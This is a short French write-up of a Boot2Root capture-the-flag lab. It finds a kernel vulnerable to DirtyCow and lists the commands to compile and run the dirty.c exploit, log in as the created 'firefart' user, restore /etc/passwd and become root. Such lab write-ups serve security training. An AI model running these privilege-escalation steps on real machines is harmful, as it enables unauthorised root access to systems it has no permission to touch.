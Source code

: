 # Boot2Root -- VacheQuiPue

On recommence à partir de l'étape `Step 5 - Sanitize`

## Step 5 - Identification
Une fois sur le serveur, on cherche des potentielles manières de passer root.
Après un peu de recherche et de tests, on constate que le kernel est vulnérable à l'exploit DirtyCow
```
> uname -ra
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
La faille existe sur les Linux Kernel <= 3.19.0-73.8

## Step 6 - VacheQuiPue
On copie le code trouvable dans `scripts/dirty.c`, On le compile puis on le lance 
```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty cpt
```

On attend un peu, on se connecte en tant que `firefart`, on restore le passwd d'origine et on se connecte en tant que root
```
su firefart
mdp: cpt
mv /tmp/passwd.bak /etc/passwd
su root
```

Et hop, root.


## Sources:
References élevation de privilèges: https://book.hacktricks.xyz/linux-hardening/privilege-escalation
Exploit DirtyCow: https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
Explication DirtyCow: https://github.com/thaddeuspearson/Understanding_DirtyCOW